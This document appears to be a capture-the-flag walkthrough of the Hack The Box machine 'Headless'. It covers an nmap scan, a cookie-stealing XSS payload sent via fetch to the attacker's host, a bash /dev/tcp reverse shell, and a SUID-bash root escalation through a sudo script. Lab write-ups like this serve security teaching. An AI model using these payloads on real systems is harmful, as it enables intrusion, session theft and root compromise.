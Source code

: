 ## Phase 1: Reconnaissance ### Nmap Scan Reconnaissance is the initial step where we gather information about the target system. ```shell nmap -sCV 10.10.11.8

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-26 02:27 EDT
Nmap scan report for headless.htb (10.10.11.8)
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Tue, 26 Mar 2024 06:25:09 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>Under Construction</title>
|     <style>
|     body {
|     font-family: 'Arial', sans-serif;
|     background-color: #f7f7f7;
|     margin: 0;
|     padding: 0;
|     display: flex;
|     justify-content: center;
|     align-items: center;
|     height: 100vh;
|     .container {
|     text-align: center;
|     background-color: #fff;
|     border-radius: 10px;
|     box-shadow: 0px 0px 20px rgba(0, 0, 0, 0.2);
|   RTSPRequest: 
|     <!DOCTYPE HTML>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: 400 - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

### Explanation:

- Port 22 is open, indicating an SSH service running OpenSSH 9.2p1.
- Port 5000 is open, running a web service using Werkzeug/2.2.2 on Python/3.11.2.
- The is_admin cookie clue hints at potential privilege escalation paths.

## Phase 2: XSS Attack

### Why Consider XSS?

XSS vulnerabilities are common in web applications and occur when untrusted user input is processed and reflected back without proper sanitization. Here, the application mentions that the report is sent to administrators for investigation, suggesting that injected scripts may execute on the admin's browser.

### Key Indicators:

- Admin Cookie: Presence of is_admin cookie indicates privilege differentiation.
- Report Sent to Admin: Implies the potential for stored XSS.

### Exploiting XSS

**Payload:**
<img src=x onerror=fetch('http://your_ip:your_port/'+document.cookie);>


**Steps:**

1. **Inject Payload:** Inject the payload into the input form.
2. **Capture Cookie:** Set up a listener on your attacking machine to capture the admin's cookie
nc -lvnp your_port
3. **Replace Cookie:** Use the captured cookie to gain admin access.

### OWASP Zap for XSS Detection

OWASP Zap can automate the detection of XSS vulnerabilities.

**Automated Scan:**

- Identifies reflections of input fields.
- Highlights the lack of HTTPOnly flag on cookies, making them susceptible to theft via JavaScript.

**Fuzzing User-Agent:**

- Injects common XSS payloads to identify reflections and potential vulnerabilities.

### Why This XSS Works:

HTB simulates an admin reviewing reports by using a script that processes the reports. This is handled by app.py, which writes the reports to disk.

**Payload:**

shell



`/bin/bash -c 'bash -i &> /dev/tcp/10.10.14.34/4444 0>&1'`

**Curl Request:**

shell



`curl --path-as-is -i -s -k -X POST \\     -H 'Host: 10.10.11.8:5000' -H 'Content-Length: 118' -H 'Cache-Control: max-age=0' -H 'Upgrade-Insecure-Requests: 1' -H 'Origin: http://10.10.11.8:5000' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' -H 'Referer: http...`

### Explanation:

The payload injects a command that opens a reverse shell to your attacking machine. The curl command sends this payload to the server.

## Phase 4: Privilege Escalation

### Enumeration:

Check sudo privileges:

shell


`sudo -l`

**Output:**

ruby


`Matching Defaults entries for dvir on headless:     env_reset, mail_badpass,     secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin,     use_pty  User dvir may run the following commands on headless:     (ALL) NOPASSWD: /usr/bin/syscheck`

### Explanation:

The user dvir can run /usr/bin/syscheck with root privileges without a password.

### Reviewing the Script:

Contents of /usr/bin/syscheck:

shell


`strings /usr/bin/syscheck`

**Key Part of the Script:**

shell



`#!/bin/bash if [ "$EUID" -ne 0 ]; then   exit 1 fi last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1) formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M") /usr/bin/echo "Last Kernel Modification Time: $formatted_time" disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}') /usr/bin/echo "Available disk space: $disk_space" load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}') /usr/bin/echo "System load average: $load_average" if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then   /usr/bin/echo "Database service is not running. Starting it..."   ./initdb.sh 2>/dev/null else   /usr/bin/echo "Database service is running." fi exit 0`

### Explanation:

The script runs with root privileges and executes ./initdb.sh if it is not running.

### Exploiting the Script:

Create a malicious initdb.sh script to escalate privileges.

**Payload:**

shell



`echo "chmod u+s /bin/bash" > /home/dvir/initdb.sh chmod +x /home/dvir/initdb.sh sudo /usr/bin/syscheck`

### Explanation:

The payload sets the SUID bit on /bin/bash, which allows any user to run bash with root privileges.

### Get a Root Shell:

/bin/bash -p

### Explanation:

Running bash -p after setting the SUID bit gives a root shell.

### Understanding bash -p:

The bash -p command runs the Bash shell in "privileged mode." This mode is particularly useful when the SUID bit is set on the Bash executable.

### SUID Bit:

SUID (Set User ID): This is a special type of file permission that allows a user to run an executable with the permissions of the executable's owner. When applied to the Bash shell, it allows any user running the shell to have the permissions of the file owner, which is typically root.

### Privileged Mode:

When you set the SUID bit on /bin/bash, running bash -p ensures that the shell retains its elevated privileges (root) even if it is executed by a non-privileged user.

### Why Use bash -p After SUID:

- Elevated Privileges: To exploit the elevated privileges granted by the SUID bit.
- Root Shell: Ensures the shell operates with root privileges, allowing you to execute commands as root without needing to prefix them with sudo.

